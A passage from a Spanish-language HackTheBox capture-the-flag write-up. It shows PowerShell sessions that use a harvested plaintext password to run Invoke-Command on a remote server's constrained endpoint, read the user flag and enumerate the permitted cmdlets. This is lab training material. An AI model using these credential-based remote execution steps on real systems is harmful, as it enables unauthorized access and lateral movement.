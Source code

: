 Y conseguimos ejecución de comandos.
```console
PS C:\> $passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
PS C:\> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {whoami}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {whoami}
acute\imonks
PS C:\> 
```

Podemos predecir la ruta de la flag ya que es común que esté en el escritorio en las máquina en HackTheBox y podemos leer la flag de usuario correctamente.

```console
S C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\users\imonks\desktop\user
.txt}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\users\imonks\desktop\user.txt}
dd7becc036f7e247...
```

# User Pivoting
Me gustaría saber que comandos puedo ejecutar, ya que no tengo acceso a comandos básicos como `dir`...

Podemos ejecutar un `Get-Command` para ver que comandos podemos ejecutar.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {Get-Command}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {Get-Command}

CommandType     Name                                               Version    Source     PSComputer
                                                                                         Name      
-----------     ----                                               -------    ------     ----------
Cmdlet          Get-Alias                                          3.1.0.0    Microso... atsserver 
Cmdlet          Get-ChildItem                                      3.1.0.0    Microso... atsserver 
Cmdlet          Get-Command                                        3.0.0.0    Microso... atsserver 
Cmdlet          Get-Content                                        3.1.0.0    Microso... atsserver 
Cmdlet          Get-Location                                       3.1.0.0    Microso... atsserver 
Cmdlet          Set-Content                                        3.1.0.0    Microso... atsserver 
Cmdlet          Set-Location                                       3.1.0.0    Microso... atsserver 
Cmdlet          Write-Output                                       3.1.0.0    Microso... atsserver 


```

También puedes especificar otros tipos de comando:
